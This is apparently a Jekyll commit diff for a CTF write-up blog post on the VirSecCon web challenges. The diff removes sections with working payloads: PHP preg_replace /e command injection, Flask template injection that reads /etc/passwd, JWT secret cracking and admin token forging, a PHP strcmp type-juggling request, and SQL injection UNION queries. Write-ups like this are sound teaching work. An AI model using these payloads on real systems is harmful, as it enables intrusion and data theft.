

Before and after one commit to yaserfaraj/yaserfaraj.github.io, a Jekyll site: the page built from _posts/2020-04-5-virseccon-web-challenges-ctf.md, in a window 1280 px wide and 1400 px high, scrolled down 3516 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2020-04-5-virseccon-web-challenges-ctf.md

````diff
--- a/_posts/2020-04-5-virseccon-web-challenges-ctf.md
+++ b/_posts/2020-04-5-virseccon-web-challenges-ctf.md
@@ -131,206 +131,3 @@ yas3r@linux[~/CTF/VirSecCon]$ echo PCFET0NUWVBFIGh0bWw+Cgo8aHRtbD4KICAgIDxoZWFkP
     */
 ?>
 ```
-
-
-### Irregular Expressions : Web Challenge
-
-This one is pretty old but still works in CTF challenges. The vulnerability in `preg_replace` in `PHP`, more information [here](https://bitquark.co.uk/blog/2013/07/23/the_unexpected_dangers_of_preg_replace).
-
-by adding in the filter field `/e system("cat flag_name_dont_guess_plz index.php ");` to read the flag `LLS{php_preg_replace_may_be_dangerous}`
-
-
-
-### Mask : Web Challenge
-
-By testing  {{1+1}}, we confirm that we are using `flask` framework. Let try to injection `python` code to read local files
-
-```python
-{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
-```
-but we couldn't find any interesting files, so lets read the server file itself.
-
-`{{ ''.__class__.__mro__[2].__subclasses__()[40]('server.py').read() }}`
-
-
-```python
- #!/usr/bin/env python
-
-import flask
-from flask import request, render_template_string
-
-
-app = flask.Flask(__name__)
-app.config.from_object(__name__)
-app.secret_key = 'LLS{server_side_template_injection_unmasked}'
-
-
-@app.route('/', methods = ["GET", "POST"])
-def index():
-
-    mask = "... you have not yet taken off your mask!"
-
-    if request.method == "POST":
-        mask = request.form['mask']
-
-    return flask.render_template_string(  ''' {%  extends "layout.html"  %}
-    {%  block body  %} ''' + mask + ''' {%  endblock %} ''' )
-
-if ( __name__ == "__main__" ):
-
-    app.run( host='0.0.0.0' )
-```
-
-We can find the flag: `LLS{server_side_template_injection_unmasked}`
-
-
-
-### JaWT : Web Challenge
-
-From the name, it was obvious that we are dealing with `JWT` vulnerability. There is also another hint were mention `john`. So lets create a new user and capture the `jwt` and crack it with `hashcat`
-
-Here is :
-```
-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o
-```
-
-Lets crack it with `hashcat` because why not
-```sh
-yas3r@linux[~/CTF/VirSecCon]$ hashcat -m 16500 jwt.hash /usr/share/wordlists/SecLists/Passwords/Leaked-Databases/rockyou.txt
-```
-
-```sh
-eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoidGVzdCJ9.jbf34kzJ36YbWPQU69k-mlieDVmaWiIiAs6jPU1mH4o:fuckit
-```
-
-The secret=`fuckit`
-
-Now lets use jwt the online tool [here](https://jwt.io/#debugger-io?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWRtaW4ifQ.qfSqP1u-gAhG6r8Vfb31Fi5WkjYCxjRKhFEcLCde8O0).
-
-by changing the user to `admin` and put the secret as `fuckit` and then resend it the server to see we are logged in as `admin`. Then, you will see the flag.
-
-Flag `LLS{jawt_was_just_what_you_thought}`
-
-
-
-### PHPJuggler : Web Challenge
-
-give a source code
-```php
-<?php
-
-    include('flag.php');
-
-    if ( isset($_POST['flag']) ){
-        if ( strcmp( $_POST['flag'], $flag ) == 0 ){
-            echo("You got it! That's the correct flag! <br>");
-            echo($flag);
-        }else{
-            echo("NOPE! Wrong flag.");
-        }
-        echo ("<br><br>");
-    }
-
-    highlight_file(__FILE__);
-?>
-
-<html>
-<head> <title> PHP Juggler </title> </head>
-    <body>
-    <br><br>
-    <form action="#" method="POST">
-        <p> Tell me the flag. </p>
-        <input type="text" name="flag">
-        <input type="submit" value="Submit">
-    </form>
-</html>
-```
-
-we can see it been used `strcmp` to compare to value to `0`. This one is also an old vulnerability in `PHP`. By changing the parameter to array it will send type array which is read by `PHP` as `zero`
-
-```
-POST / HTTP/1.1
-
-Host: jh2i.com:50030
-
-User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:74.0) Gecko/20100101 Firefox/74.0
-
-Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
-
-Accept-Language: en-US,en;q=0.5
-
-Accept-Encoding: gzip, deflate
-
-Connection: close
-
-Upgrade-Insecure-Requests: 1
-
-Content-Type: application/x-www-form-urlencoded
-
-Content-Length: 0
-
-
-
-flag[]=0
-```
-
-and here is the responds,
-
-```
-Warning: strcmp() expects parameter 1 to be string, array given in /var/www/html/index.php on line 6
-You got it! That's the correct flag!
-LLS{php_dropped_the_ball_again}
-```
-
-
-
-### Sequelitis : Web Challenge
-
-Here is a classic `SQL injection`
-
-to show all customers: `' or 1=1#;`
-Union statement : `' union select 1,2,3#;`
-
-then we found we have three databases:
-```
-1 information_schema: 3
-1 mysql: 3
-1 performance_schema: 3
-1 sequelitis: 3
-```
-Lets check the tables of `sequelitis`
-```sh
-'+union+select+1,table_name,3+from+information_schema.tables+where+table_schema%3d'sequelitis'%23%3b
-
-<pre>
-Customers returned are:
-
-1 customers: 3
-1 flag: 3
-
-</pre>
-```
-Now lets check columns name:
-
-```sh
-'+union+select+1,column_name,3+from+information_schema.columns+where+table_name%3d'flag'%23%3b
-
-<pre>
-Customers returned are:
-
-1 value: 3
-
-</pre>
-```
-
-Lets read the flag
-```sh
-first_name='+union+select+1,value,3+from+flag%23%3b
-<pre>
-Customers returned are:
-
-1 LLS{explicit_sqli_is_how_sql_will_die}: 3
-
-</pre>
-
-```
````
